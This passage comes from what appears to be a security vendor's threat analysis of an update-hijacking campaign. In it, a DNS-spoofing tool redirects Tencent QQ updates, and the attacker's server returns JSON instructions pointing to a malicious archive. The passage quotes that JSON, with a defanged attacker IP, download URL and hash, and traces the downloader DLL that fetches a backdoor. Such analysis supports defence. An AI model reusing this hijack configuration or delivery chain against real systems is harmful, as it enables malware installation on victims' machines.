 ![Figure 9. Output of Spellbinder when answering to a DNS query of a targeted domain](https://web-assets.esetstatic.com/wls/2025/04-25/thewizards/figure-9.png)*Figure 9. Output of Spellbinder when answering to a DNS query of a targeted domain*

Figure 10 shows the packet information.

![Figure 10. Wireshark display of a DNS answer message sent by Spellbinder](https://web-assets.esetstatic.com/wls/2025/04-25/thewizards/figure-10.png)*Figure 10. Wireshark display of a DNS answer message sent by Spellbinder*

## Hijacking of updates

For this blogpost we have focused on one of the latest cases in 2024, in which the update of Tencent QQ software was hijacked. The malicious server that issues the update instructions was still active at the time of writing. Figure 11 illustrates the observed chain.

![Figure 11. Compromise chain](https://web-assets.esetstatic.com/wls/2025/04-25/thewizards/figure-11.png)*Figure 11. Compromise chain*

The legitimate software component QQ.exe sends an HTTP request to update.browser.qq.com. The Spellbinder tool intercepts the DNS query for that domain name and issues a DNS answer with the IP address of an attacker-controlled server used for hijacking, for example, 43.155.62[.]54, that at the time of writing was still serving malicious updates.

When the request is received by the hijacking server, it replies with the following (beautified by us) JSON-formatted instructions to download an archive also hosted in the same server:

```markup
{
  "CSoftID": 22,
  "CommandLine": "",
  "Desp": "1.1.1160.80",
  "DownloadUrl": "http://43.155.62[.]54:81/app/minibrowser11_rpl.zip",
  "ErrCode": 0,
  "File": "minibrowser11.zip",
  "Flags": 1,
  "Hash": "da73153c76b6f652f9b2847531d1c367",
  "InstallType": 0,
  "NewVer": "39.1.1170.900",
  "PatchFile": "QBDeltaUpdate.exe",
  "PatchHash": "da73153c76b6f652f9b2847531d1c367",
  "Sign": "",
  "Size": 36673429,
  "VerType": ""
}
```

Next, QQ.exe downloads the archive minibrowser11_rpl.zip and deploys its contents to the victim’s machine; the malicious minibrowser_shell.dll is then loaded.

## Execution chain after a successful AitM attack

The execution of the malware on a compromised machine begins with the malicious minibrowser_shell.dll downloader. This DLL has three export functions and the execution of any of them triggers its main functionality but only if the name of the current process contains QQ — for example, QQ.exe would be valid.

It uses the WinSock API to connect via TCP to an attacker-controlled server, from where it obtains an encrypted blob containing position-independent loader code and the WizardNet backdoor.
